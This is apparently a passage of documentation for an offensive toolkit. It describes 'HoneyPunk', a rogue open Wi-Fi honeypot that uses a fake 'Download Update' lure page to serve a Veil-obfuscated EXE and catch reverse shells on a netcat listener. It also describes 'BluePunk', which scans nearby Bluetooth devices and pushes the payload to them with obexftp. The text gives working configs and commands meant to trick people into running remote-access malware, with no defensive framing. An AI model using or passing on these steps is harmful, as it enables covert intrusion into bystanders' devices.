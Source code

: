 ## 3. HoneyPunk: WiFi Rogue AP Honeypot

### Purpose
Creates an open WiFi honeypot to lure targets, delivering a payload for remote access.

### Technical Process
1. **Generate Payload**:
   - **Details**: Calls **RemotePunk**—`veil` generates `/tmp/honeypunk_veil.exe`.
2. **Setup Honeypot**:
   - **Commands**: 
     - `hostapd hostapd.conf`—open AP.
     - `dnsmasq -C dnsmasq.conf`—DHCP server.
     - `python3 -m http.server 80`—serves payload.
   - **Configs**: 
     - `hostapd.conf`: `interface=wlan0`, `ssid=HoneyWiFi`, `hw_mode=g`, `channel=6`—no encryption.
     - `dnsmasq.conf`: `interface=wlan0`, `dhcp-range=192.168.1.2,192.168.1.100,12h`—assigns IPs.
     - `index.html`: `<h1>Free WiFi - Download Update</h1><a href='http://<LHOST>/honey.exe'>Click Here</a>`—simple lure.
   - **Details**: `hostapd` broadcasts SSID, `dnsmasq` assigns IPs (e.g., `192.168.1.x`), HTTP server on port 80 serves EXE.

### Tools
- **Kali**: `hostapd`, `dnsmasq`, `veil`, `python3` (http.server).

### Usage
- **Setup**: `sudo apt install hostapd dnsmasq veil`.
- **Run**: `sudo python3 honeypunk.py`—enter `LHOST`, move EXE to `/tmp/honey.exe`.
- **Deploy**: Start listener (`nc -lvp 4444`), run near target—clients connect, download payload.
- **Output**: Shell session, logs in `honeypunk.log`.

---

## 4. BluePunk: Bluetooth Exploit Scanner

### Purpose
Scans Bluetooth devices, delivers a payload for remote access—targets nearby systems.

### Technical Process
1. **Scan**:
   - **Command**: `hcitool scan`
   - **Details**: Scans for 10s, regex `r"((?:[0-9A-Fa-f]{2}:){5}[0-9A-Fa-f]{2})\s+(.+)"` extracts MACs and names—e.g., `00:11:22:33:44:55, Headset`.
2. **Generate Payload**:
   - **Details**: Calls **RemotePunk**—`veil` outputs `/tmp/bluepunk_veil.exe`.
3. **Deliver**: 
   - **Details**: Manual—use Bluetooth file transfer (e.g., `obexftp -b <mac> -p /tmp/bluepunk_veil.exe`)—target executes.
